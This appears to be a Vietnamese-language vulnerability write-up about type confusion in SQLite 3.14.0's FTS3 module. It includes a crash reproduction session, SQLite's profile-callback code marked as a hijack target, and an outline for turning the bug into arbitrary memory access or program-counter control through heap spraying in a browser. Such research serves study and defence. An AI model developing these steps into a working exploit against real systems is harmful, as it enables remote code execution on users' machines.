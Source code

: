 ### Type Confusion (ví dụ thực nghiệm)
Ví dụ thực tế: tạo một virtual table bằng FTS3, chèn một BLOB có giá trị cụ thể, lấy hex của cột và sau đó gọi optimize(b) gây ra segmentation fault - minh chứng cho bug nhầm kiểu (type confusion) dẫn tới crash.
```
SQLite version 3.14.0 2016-07-26 15:17:14
...
sqlite> create virtual table a using fts3(b);
sqlite> insert into a values(x'4141414142424242');
sqlite> select hex(a) from a;
C854D98F08560000
sqlite> select optimize(b) from a;
[1]    37515 segmentation fault  sqlite3
```


```
# invokeProfileCallback
##### static SQLITE_NOINLINE void invokeProfileCallback(sqlite3 *db, Vdbe *p){
   sqlite3_int64 iNow;
   sqlite3_int64 iElapse;
   ...
   sqlite3OsCurrentTimeInt64(db->pVfs, &iNow);
   iElapse = (iNow - p->startTime)*1000000;
   if( db->xProfile ){
     db->xProfile(db->pProfileArg, p->zSql, iElapse);
   }
   if( db->mTrace & SQLITE_TRACE_PROFILE ){
     db->xTrace(SQLITE_TRACE_PROFILE, db->pTraceArg, p, (void*)&iElapse);
   }
   p->startTime = 0;
}
##### We used callback db->xProfile because we can also control 2 arguments through db->pProfileArg and p->zSql
```

Đoạn code fts3OptimizeFunc lặp lại, chú ý tới pCursor → p = (Fts3Table *)pCursor->base.pVtab;

Lấy hàm optimize() làm ví dụ:
- Với lỗi type confusion, ta có thể cung cấp giá trị tùy ý cho pCursor.
- Nếu ta có thể kiểm soát vùng nhớ tại một địa chỉ biết trước, ta có thể dựng giả cấu trúc Fts3Cursor và các struct liên quan (như Fts3Table).
- `sqlite3Fts3Optimize` sẽ xử lý thể giả đó như thể nó là thể thật; ta cần tìm đường đi trong code (optimize/offsets/matchinfo) để có primitive đọc/ghi tùy ý (arbitrary RW) hoặc điều khiển PC.

## Exploitation Strategy
- Để có khả năng kiểm soát bộ nhớ tại địa chỉ biết trước, heap spray vẫn hữu dụng trong trình duyệt hiện đại - ví dụ phân bổ nhiều ArrayBuffer trong JavaScript.
- Dereference Fts3Cursor tại địa chỉ đã được kiểm soát, nơi ta có thể giả lập Fts3Cursor và các struct khác.
- Tìm một đường đi mã (code path) trong optimize / offsets / matchinfo() để có primitive arbitrary RW hoặc kiểm soát PC.
